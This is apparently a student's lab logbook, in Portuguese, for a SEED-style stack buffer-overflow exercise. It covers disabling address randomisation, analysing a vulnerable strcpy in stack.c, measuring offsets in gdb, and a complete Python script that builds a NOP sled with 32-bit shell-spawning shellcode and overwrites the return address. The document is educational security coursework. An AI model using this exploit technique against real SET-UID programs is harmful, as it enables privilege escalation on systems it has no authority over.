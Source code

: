 # Trabalho realizado na Semana #5

## Configuração básica

- Como sugerido executámos os seguintes comandos de forma a criar um ambiente, onde a execução do ataque seja mais fácil, após retirar as contramedidas da alocação de espaço aleatório das posições iniciais dos registos da stack e da heap. Para além disso, como a vitima do nosso programa é um progama SET-UID executamos o segundo comando.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0

$ sudo ln -sf /bin/zsh /bin/sh
```


## Tarefa 1 : Getting Familiar with Shellcode

![Task1_Steps](resources/LOGBOOK5/task1.png)

## Tarefa 2: Understanding the Vulnerable Program

- Nesta segunda tarefa, entendemos que o programa apresentado em stack.c é de facto, vulnerável a ataques buffer overflow, uma vez que neste programa a função `bof` pretende copiar através do comando `strcpy`,que não verifica os limites do tamanho do buffer, o argumento `str`, sendo este um array com um máximo de 517 caracteres, para a variável `buffer`, tendo o espaço de 100 caracteres, lido apartir de um ficheiro `badfile`. Caso a váriavel `str` tenha caracteres a mais que `buffer`, ocorre o erro de Segmentation Fault.

![Task2_MakefileChanges](resources/LOGBOOK5/task2Makefile.png)

## Tarefa 3: Launching Attack on 32-bit Program (Level 1)

### Investigação

Primeiramente criamos o ficheiro 

![Tarefa 3 create badfile](resources/LOGBOOK5/task3badfile.png)

Compilar o código


![Tarefa 3 Compilação + gdb](resources/LOGBOOK5/task3Compilation.png)

Recorrendo ao gdb, primeiramente, criamos um breakpoint na função bof de forma a que o programa pare nesta função, visto que é onde está presente o problema de buffer overflow. De seguida, anlisamos as posições em memória de `ebp` e do `buffer` e, por fim, calculamos a diferença entre estes, de forma a perceber o quanto distam.

![Tarefa 3 find addresses](resources/LOGBOOK5/task3findaddress.png)

### Criar os ataques

```python
#!/usr/bin/python3
import sys

# Shellcode 32-bit
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"   
).encode('latin-1')

# Encher o conteúdo com NOP's
# Salto não necessita de ser preciso, pode ser feito para posições anteriores à da localização exata do código malicioso
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Por o Shellcode algures na Stack
# Como o restantes locais reescritos pelo buffer estarão com o valor da instrução NOP, torna-se mais fácil por o Shellcode no final do payload e apontar o return adress para algures nesse espaço
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode


# 0xFFFFCB58 -> posição do $ebp quando debugging
# 200 -> salto para suportar aumento do valor dos registos quando executado normalmente
ret    = 0xFFFFCB58 + 200         

# 124 -> Distância entre buffer e ebp
# 4 -> Tamanho do ebp (return address encontra-se depois)
offset = 124 + 4 

L = 4     # Utilizar 4 para registos de 32-bits e 8 para registos de 64-bit
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Escrever o conteúdo no ficheiro
with open('badfile', 'wb') as f:
  f.write(content)
```

![Stack GDB](resources/LOGBOOK5/stackGDB.png)
![Stack normal](resources/LOGBOOK5/stackNormal.png)
![Stack afetada](resources/LOGBOOK5/stackafetada.png)



